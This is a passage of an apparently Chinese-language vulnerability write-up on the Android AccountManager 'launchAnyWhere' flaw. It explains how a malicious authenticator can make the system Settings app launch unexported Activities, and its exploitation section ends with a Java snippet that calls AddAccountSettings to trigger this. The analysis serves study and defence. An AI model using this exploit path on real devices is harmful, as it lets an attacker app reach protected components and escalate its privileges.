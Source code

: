 然后在Response中直接startActivity

对于有系统权限的用户可以不管组件是否是`exported=true`都可以直接调用:

![](/images/anywhere/permission.png)

如图，System用户直接返回`PERMISSION_GRANTED`

根据以上分析可知，理论上`AuthenticationService`可以随意指定Intent。如果可以让系统Setting(uid是system进程)调用`addAccount`方法，`EvilAuthenService`就可以指定任何Intent。

### 利用

> 1. AppA请求添加一个特定类型的网络账号
> 2. 系统查询到AppB可以提供一个该类型的网络账号服务，系统向AppB发起请求
> 3. AppB返回了一个intent给系统，系统把intent转发给appA
> 4. AccountManagerResponse在AppA的进程空间内调用 startActivity(intent)调起一个Activity，AccountManagerResponse是FrameWork中的代码， AppA对这一调用毫不知情。

如果AppA是一个system权限应用，比如Settings，那么AppA能够调用起任意AppB指定的未导出Activity.

Settings提供调用addAccount的接口。只要调用com.android.settings.accounts.AddAccountSettings，并给Intent带上特定的参数，即可让Settings触发launchAnyWhere：

```java
Intent intent1 = new Intent();
intent1.setComponent(new ComponentName(
        "com.android.settings",
        "com.android.settings.accounts.AddAccountSettings"));
intent1.setAction(Intent.ACTION_RUN);
intent1.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
String authTypes[] = {Constants.ACCOUNT_TYPE};
intent1.putExtra("account_types", authTypes);
AuthenticatorActivity.this.startActivity(intent1);
```
